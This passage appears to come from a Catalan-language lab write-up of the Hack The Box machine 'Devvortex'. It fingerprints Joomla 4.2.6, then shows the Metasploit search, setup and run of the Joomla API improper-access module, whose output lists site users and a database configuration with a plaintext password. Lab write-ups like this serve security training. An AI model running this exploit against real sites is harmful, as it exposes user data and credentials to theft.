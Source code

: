 ```
[+] Detecting Joomla Version
[++] Joomla 4.2.6`
```

Ara buscarem si té algun CVE o algun exploit, per tant mirarem si amb el metasploit ho trobem i tenim premi:

```
msf6 > search joomla 4.2
Matching Modules
================
 # Name Disclosure Date Rank Check Description
 - ---- --------------- ---- ----- -----------
 0 auxiliary/scanner/http/joomla_api_improper_access_checks 2023-02-01 normal Yes
Joomla API Improper Access Checks
Interact with a module by name or index. For example info 0, use 0 or use
auxiliary/scanner/http/joomla_api_improper_access_checks
msf6 >`
```

Ara el configurem i l’executem:

```
msf6 auxiliary(scanner/http/joomla_api_improper_access_checks) > set RHOSTS
dev.devvortex.htb
RHOSTS => dev.devvortex.htb
msf6 auxiliary(scanner/http/joomla_api_improper_access_checks) > run

[+] Users JSON saved to
/home/polkali/.msf4/loot/20240403181548_default_10.10.11.242_joomla.users_078359.bin
[+] Joomla Users
============
 ID Super User Name Username Email Send Email Register Date Last Visit
Date Group Names
 -- ---------- ---- -------- ----- ---------- ------------- --------------- -----------
 649 * lewis lewis lewis@devvortex.htb 1 2023-09-25 16:44:24 2024-04-03
15:03:39 Super Users
 650 logan paul logan logan@devvortex.htb 0 2023-09-26 19:15:42
Registered
[+] Config JSON saved to
/home/polkali/.msf4/loot/20240403181548_default_10.10.11.242_joomla.config_234417.bin
[+] Joomla Config
=============
 Setting Value
 ------- -----
 db encryption 0
 db host localhost
 db name joomla
 db password P4ntherg0t1n5r3c0n##
 db prefix sd4fg_
 db user lewis
 dbtype mysqli
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/joomla_api_improper_access_checks) >`
```
